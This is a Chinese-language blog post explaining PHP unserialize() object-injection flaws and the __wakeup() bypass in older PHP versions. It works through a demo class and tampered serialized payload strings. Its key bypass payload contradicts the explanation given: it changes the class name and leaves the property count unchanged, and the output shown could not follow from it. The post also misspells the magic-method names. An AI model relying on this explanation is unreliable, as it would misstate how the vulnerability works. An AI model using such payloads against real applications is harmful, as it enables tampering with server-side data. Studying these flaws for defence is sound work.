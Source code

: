 ```yaml
---
layout: post
title:  "php unserialize()/wakeup()漏洞"
date:   2016-10-29 09:31:40 +0800
categories: web
---
```

unserialize和serialize这里不做赘述。

unserialize的漏洞在magic function上，如果一个类定义了\_\_wakup()和\_\_destruct()，则该类的实例被反序列化时，会自动调用\_\_wakeup(), 生命周期结束时，则调用\_\_desturct()。

<!--more-->

下面提供一个简单的demo.

```php
class Demo
{

    public $data;

    public function __construct($data)
    {
        $this->data = $data;
        echo "construct<br />";
    }

    public function __wakeup()
    {
        echo "wake up<br />";
    }

    public function __destruct()
    {
        echo "Data's value is $this->data. <br />";
        echo "destruct<br />";
    }
}

var_dump(serialize(new Demo("raw value")));

```

输出

````php
construct
Data's value is raw value.
destruct
string(44) "O:4:"Demo":1:{s:4:"data";s:9:"raw value";}" 
```

把序列化的字符串修改一下后，执行

```php
unserialize('O:4:"Demo":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
wake up
Data's value is malicious value.
destruct
```

这里看到，值被修改了.

上面是一个unserialize()的简单应用，不难看出，如果\_\_wakeup()或者 \_\_desturct()有敏感操作，比如读写文件、操作数据库，就可以通过函数实现文件读写或者数据读取的行为。

那么，在\_\_wakeup()中加入判断是否可以阻止这个漏洞呢？
在\_\_wakeup()中我们加入一行代码

```php
    public function __wakeup()
    {
        if($this->data != 'raw value') $this->data = 'raw value';
        echo "wake up<br />";
    }
```

但其实还是可以绕过的，在 PHP5 < 5.6.25， PHP7 < 7.0.10 的版本都存在wakeup的漏洞。当反序列化中object的个数和之前的个数不等时，wakeup就会被绕过，于是使用下面的payload

```php
unserialize('O:7:"HITCON":1:{s:4:"data";s:15:"malicious value";}');
```

输出

```
Data's value is malicious value.
destruct
```

这里wakeup被绕过，值依旧被修改了。
